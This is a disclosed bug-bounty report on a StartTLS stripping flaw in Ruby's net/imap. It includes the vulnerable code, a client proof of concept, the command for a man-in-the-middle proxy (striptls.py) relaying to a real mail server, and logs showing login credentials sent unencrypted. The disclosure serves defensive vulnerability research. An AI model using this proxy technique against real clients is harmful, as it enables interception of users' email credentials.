 # imap: StartTLS stripping attack (CVE-2016-0772).

## Report Details
- **Report ID**: 1178562
- **URL**: https://hackerone.com/reports/1178562
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-04-28T16:06:30.578Z
- **Disclosed**: 2021-07-08T15:34:20.176Z

## Reporter
- **Username**: sighook
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
`net/imap` does not seem to raise an exception when the remote end (imap server)  fails to respond with `tagged_response` (NO/BAD) or `OK` to an explicit call of `imap.starttls`. This may allow a malicious MITM to perform a starttls stripping attack if the client code does not explicitly set `usessl = true` on ` initialize` where it is disabled by default: it is rarely done as one might expect that `starttls` raises an exception when starttls negotiation fails (like when using `usessl` on a server that does not support it or when it fails to negotiate tls due to an ssl exception/cipher mismatch/auth fail).

The vulnerable code:
```ruby
    def starttls(options = {}, verify = true)
      send_command("STARTTLS") do |resp|
        if resp.kind_of?(TaggedResponse) && resp.name == "OK"
          begin
            # for backward compatibility
            certs = options.to_str
            options = create_ssl_params(certs, verify)
          rescue NoMethodError
          end
          start_tls_session(options)
        end # <--- End of handling :)
      end
    end
```

# PoC

For instance, we have the following client code:
```ruby
require 'net/imap'

imap = Net::IMAP.new('0.0.0.0', 9999)
imap.starttls
imap.login('myLOGIN','myPASSWORD')                                            # test login
#imap.authenticate('LOGIN', 'joe_user', 'joes_password') # test auth
imap.disconnect
```
Start the proxy: `python striptls.py -l 0.0.0.0:9999 -r imap.yandex.ru:143 -x IMAP.StripWithError`
 (See `striptls.py` in attachments).

Proxy output:
```bash
$  python striptls.py -l 0.0.0.0:9999 -r imap.yandex.ru:143 -x IMAP.StripWithError
2021-04-28 18:43:27,286 - INFO     - <Session 0x7fd5850b3c10> client ('127.0.0.1', 39154) has connected
2021-04-28 18:43:27,286 - INFO     - <Session 0x7fd5850b3c10> connecting to target ('imap.yandex.ru', 143)
2021-04-28 18:43:27,347 - DEBUG    - <Session 0x7fd5850b3c10> [client] <= [server]          '* OK Yandex IMAP4rev1 at myt3-8d2078fedea5.qloud-c.yandex.net:143 ready to talk with ::ffff:188.138.209.162:62549, 2021-Apr-28 18:43:52, qheZ7J3friE1\r\n'
2021-04-28 18:43:27,348 - DEBUG    - <RewriteDispatcher  - changed mangle: __main__.StripWithError new: True>
2021-04-28 18:43:27,348 - DEBUG    - <Session 0x7fd5850b3c10> [client] => [server]          'RUBY0001 STARTTLS\r\n'
2021-04-28 18:43:27,349 - DEBUG    - <Session 0x7fd5850b3c10> [client] <= [server][mangled] 'RUBY0001 BUG unhandled command\r\n'
2021-04-28 18:43:27,349 - DEBUG    - <Session 0x7fd5850b3c10> [client] => [server][mangled] None
2021-04-28 18:43:27,349 - DEBUG    - <Session 0x7fd5850b3c10> [client] => [server]          'RUBY0002 LOGIN myLOGIN myPASSWORD\r\n'
...
```
As you can see, `starttls` did not return any error to the client and `LOGIN` authentication started.
`AUTH` is the same:
```
2021-04-28 18:47:00,579 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server]          'RUBY0001 STARTTLS\r\n'
2021-04-28 18:47:00,579 - DEBUG    - <Session 0x7fd5850b3dd0> [client] <= [server][mangled] 'RUBY0001 BUG unhandled command\r\n'
2021-04-28 18:47:00,579 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server][mangled] None
2021-04-28 18:47:00,579 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server]          'RUBY0002 AUTHENTICATE'
2021-04-28 18:47:00,580 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server]          ' LOGIN\r\n'
2021-04-28 18:47:00,580 - DEBUG    - <Session 0x7fd5850b3dd0> [client] <= [server][mangled] '+\r\n'
2021-04-28 18:47:00,580 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server][mangled] None
2021-04-28 18:47:00,580 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server]          'am9lX3VzZXI=\r\n'
2021-04-28 18:47:00,580 - DEBUG    - <Session 0x7fd5850b3dd0> [client] <= [server][mangled] '+ UGFzc3dvcmQ6\r\n'
2021-04-28 18:47:00,580 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server][mangled] None
2021-04-28 18:47:00,581 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server]          'am9lc19wYXNzd29yZA==\r\n'
2021-04-28 18:47:00,581 - DEBUG    - <Session 0x7fd5850b3dd0> [client] <= [server][mangled] '+ UGFzc3dvcmQ6\r\n'
2021-04-28 18:47:00,581 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server][mangled] None
2021-04-28 18:47:00,581 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server]          'am9lc19wYXNzd29yZA==\r\n'
2021-04-28 18:47:00,581 - DEBUG    - <Session 0x7fd5850b3dd0> [client] <= [server][mangled] '+ UGFzc3dvcmQ6\r\n'
2021-04-28 18:47:00,581 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server][mangled] None
2021-04-28 18:47:00,582 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server]          'am9lc19wYXNzd29yZA=='
2021-04-28 18:47:00,582 - DEBUG    - <Session 0x7fd5850b3dd0> [client] => [server]          '\r\n'
2021-04-28 18:47:00,635 - DEBUG    - <Session 0x7fd5850b3dd0> [client] <= [server]          'RUBY0002 BAD Command syntax error. sc=PleRNJ32YGk1_281547_4-d4596b06cae3\r\n'
```

I set the same CVSS as CVE-2016-0772 has.

## Impact

Allows man-in-the-middle attackers to bypass the TLS protections by leveraging a network position between the client and the registry to block the StartTLS command, aka a "StartTLS stripping attack."

## Attachments
- striptls.py
